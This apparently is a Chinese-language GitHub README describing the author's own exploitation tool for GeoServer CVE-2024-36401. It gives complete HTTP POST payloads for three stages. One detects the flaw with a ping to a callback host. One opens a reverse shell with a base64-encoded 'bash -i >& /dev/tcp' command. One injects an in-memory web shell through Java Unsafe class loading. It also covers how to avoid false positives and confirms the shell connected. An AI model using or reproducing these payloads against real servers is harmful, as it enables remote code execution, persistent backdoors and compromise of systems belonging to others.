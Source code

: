# geoserver CVE-2024-36401 漏洞利用工具

geoserver CVE-2024-36401

原本没打算写的，主要是想着直接去搜一下工具，直接用着方便就OK了

找到一个geoserver CVE-2024-36401漏洞利用工具

GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfdsf.png)

但是实际使用下来感觉到这个工具稍微有点尴，作者说是go语言写的，速度极快，主要表现是两点

1、闪退，不明原因的闪退，检测都要闪退

2、使用yakit漏洞是存在的，但是他这个工具不存在，就没明白怎么回事，估计是他的判断逻辑上出了问题

那么就想着能不能自己写一个试试

但是发现这个漏洞实际写下来，也没那么简单

简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>

这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的

<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式

判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  
  这个地方，其实都不用去查找dns记录
  
  简单的逻辑就是判断是否存在异常的类
  
  如java.lang.ClassCastException
  
当然，这只是判断逻辑

这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
 
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：

<wfs:Query typeNames='sf:archsites'/>

同样，先要正则取值然后拼接给他

然后直接请求

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64

编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了

然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值

在star这里，放入你生成的base64的内存马加密代码

然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：

https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException

误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常

文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/dfdsfdf.png)

我们来测试一下漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/fdgdgds.png)

是可以连接的



















 
            

  

